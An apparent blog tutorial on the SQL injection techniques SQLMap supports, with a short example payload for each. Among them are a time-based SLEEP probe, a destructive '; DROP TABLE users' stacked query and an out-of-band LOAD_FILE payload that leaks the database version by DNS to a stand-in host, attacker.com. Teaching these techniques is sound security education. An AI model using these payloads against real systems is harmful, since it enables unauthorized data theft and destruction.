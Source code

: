 ```yaml
---
title: "SQL Injection Types Supported by SQLMap - SQL Map 01"
seoTitle: "SQLMap Guide: Types of SQL Injections Supported"
seoDescription: "Explore the various SQL injection types supported by SQLMap, including Boolean-based, Error-based, and more, with this comprehensive guide"
datePublished: Wed Apr 24 2024 22:32:38 GMT+0000 (Coordinated Universal Time)
cuid: clvee4p05000308lb3ezwe1ne
slug: sql-injection-types-supported-by-sqlmap-sql-map-01
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1713997931561/7c7be6d0-c5b9-4ce1-8617-f26a92818d1c.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1713997935094/a175b61a-1b7c-4ad0-aa7d-9f233874f43b.png
tags: hacking, pentesting, sqlinjection, sqlmap

---
```


## Objective:

To provide a detailed, step-by-step guide on the various SQL injection types supported by SQLMap, enabling learners to understand and identify each type effectively.

## Introduction to SQLMap

* SQLMap is a powerful penetration testing tool for detecting and exploiting SQL injection vulnerabilities.
    
* It supports a wide range of SQL injection techniques, making it a comprehensive tool for testing web application security.
    

## Listing Supported SQL Injection Types

1. Use the command `sqlmap -hh` to view the list of supported SQL injection techniques.
    
2. The `-technique` option allows you to specify the SQL injection techniques to use.
    
3. The default value for `-technique` is "BEUSTQ", which represents the following techniques:
    
    * B: Boolean-based blind
        
    * E: Error-based
        
    * U: Union query-based
        
    * S: Stacked queries
        
    * T: Time-based blind
        
    * Q: Inline queries
        

## Boolean-based Blind SQL Injection

1. Example payload: `AND 1=1`
    
2. SQLMap exploits this vulnerability by differentiating between TRUE and FALSE query results.
    
3. It retrieves 1 byte of information per request by comparing server responses.
    
4. TRUE results have minimal or no difference from the regular server response.
    
5. FALSE results have substantial differences from the regular server response.
    
6. Boolean-based blind SQL injection is considered the most common type in web applications.
    

## Error-based SQL Injection

1. Example payload: `AND GTID_SUBSET(@@version,0)`
    
2. This technique relies on the DBMS returning error messages as part of the server response.
    
3. SQLMap uses specialized payloads targeting functions that cause known misbehaviors in specific DBMSes.
    
4. It supports error-based SQL injection for various DBMSes, including MySQL, PostgreSQL, Oracle, and more.
    
5. Error-based SQLi is faster than most other types, as it can retrieve data in chunks (e.g., 200 bytes) per request.
    

## UNION Query-based SQL Injection

1. Example payload: `UNION ALL SELECT 1,@@version,3`
    
2. This technique extends the original vulnerable query with the results of injected statements using UNION.
    
3. If the original query results are rendered in the response, the attacker can retrieve additional data from the injected statements.
    
4. UNION query-based SQLi is considered the fastest type, as it can potentially retrieve an entire database table with a single request.
    

## Stacked Queries SQL Injection

1. Example payload: `; DROP TABLE users.`
    
2. Also known as "piggy-backing," this technique injects additional SQL statements after the vulnerable one.
    
3. It is useful for running non-query statements like INSERT, UPDATE, or DELETE.
    
4. The vulnerable platform must support stacking queries (e.g., Microsoft SQL Server and PostgreSQL).
    
5. SQLMap can use stacked queries for advanced features like executing OS commands and retrieving data.
    

## Time-based Blind SQL Injection

1. Example payload: `AND 1=IF(2>1,SLEEP(5),0)`
    
2. Similar to boolean-based blind SQLi, this technique uses response time to differentiate between TRUE and FALSE.
    
3. TRUE responses have a noticeable difference in response time compared to regular server responses.
    
4. FALSE responses have response times indistinguishable from regular responses.
    
5. Time-based blind SQLi is slower than boolean-based blind SQLi but is used when the latter is not applicable (e.g., non-query statements).
    

## Inline Queries SQL Injection

1. Example payload: `SELECT (SELECT @@version) from`
    
2. This technique embeds a query within the original query.
    
3. It is uncommon and requires the vulnerable web application to be written in a specific way.
    
4. SQLMap supports this type of SQL injection.
    

## Out-of-band SQL Injection

1. Example payload: `LOAD_FILE(CONCAT('\\\\\\\\',@@version,'.`[`attacker.com`](http://attacker.com)`\\\\README.txt'))`
    
2. This advanced technique is used when other types are unsupported or too slow.
    
3. SQLMap supports out-of-band SQLi through "DNS exfiltration."
    
4. It forces the server to request non-existent subdomains containing the SQL response.
    
5. SQLMap collects these erroring DNS requests to form the entire SQL response.
    

## Checkpoint Exercise

1. Set up a vulnerable web application with SQL injection vulnerabilities.
    
2. Use SQLMap to identify the supported SQL injection types for the application.
    
3. Attempt to exploit the application using each supported SQL injection type.
    
4. Analyze the results and understand the differences between each technique.